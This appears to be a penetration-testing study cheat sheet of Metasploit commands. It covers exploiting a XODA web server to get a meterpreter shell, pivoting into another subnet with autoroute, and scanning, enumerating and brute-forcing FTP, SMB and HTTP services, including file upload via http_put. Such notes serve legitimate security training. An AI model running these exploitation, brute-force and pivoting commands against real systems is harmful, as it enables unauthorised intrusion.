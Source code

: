 - `msf6 > search xoda` - for exploiting the **web** server
- `msf6 > use xoda`
- `msf6 > set RHOSTS <ip>`
- `msf6 > set TARGETURI /`
- `msf6 > run`
- `meterpreter > shell`
- `ifconfig`
    - **Getting the subnet of another target**
- **`meterpreter > run autoroute -s <subnet>`** - allows all MSF modules to get **access** to the subnet (second_ip)
- `meterpreter > bg` - background
- `msf6 > use auxiliary/scanner/portscan/tcp`
- `msf6 > set RHOSTS <new_ip>`
- `msf6 > run`

Optional:

- `msf6 > search udp_sweep` - UDP port scanning

### FTP

- `msf6 > search name:ftp type:auxiliary`
- `msf6 > use auxiliary/scanner/ftp/ftp_version`
- `msf6 > search <ftp_version>` - for exploitation

- `msf6 > use auxiliary/scanner/ftp/ftp_login` - FTP **brute** forcing

- `msf6 > use auxiliary/scanner/ftp/anonymous` - **anon** login scanner

### SMB

- `msf6 > search name:smb type:auxiliary`
- `msf6 > use auxiliary/scanner/smb/smb_version`
- `msf6 > use auxiliary/scanner/smb/smb_enumusers`
- `msf6 > use auxiliary/scanner/smb/smb_enumshares`
    - `msf6 > set ShowFiles true`
- `msf6 > use auxiliary/scanner/smb/smb_login`
    - `msf6 > set SMBUser admin`
    - `msf6 > set PASS_FILE <file>`
- `smbclient -L -U admin <ip>` - listing shares
- `smbclient //<ip>/<share> -U admin`

### Web Server Enum

Web server is used to serve website data.

- `msf6 > search name:http type:auxiliary`
- `msf6 > use auxiliary/scanner/http/http_version`
- `msf6 > use auxiliary/scanner/http/http_header` - content-type, server type, etc.
- `msf6 > use auxiliary/scanner/http/robots_txt`
- `msf6 > use auxiliary/scanner/http/dir_scanner` - directory fuzzing
- `msf6 > use auxiliary/scanner/http/files_dir` - file fuzzing (not directory)
- `msf6 > use auxiliary/scanner/http/http_login` - HTTP brute-forcing
    - `set AUTH_URI /webdav`
    - `unsetg USERPASS_FILE`
- `msf6 > use auxiliary/scanner/http/apache_userdir_enum`
- `msf6 > use auxiliary/scanner/http/options` - gives headers (GET, POST, etc)
- `msf6 > use auxiliary/scanner/http/**http_put**` - uploading file (if we have POST a header)
    - `msf6 > set PATH /<path>` - path for uploading
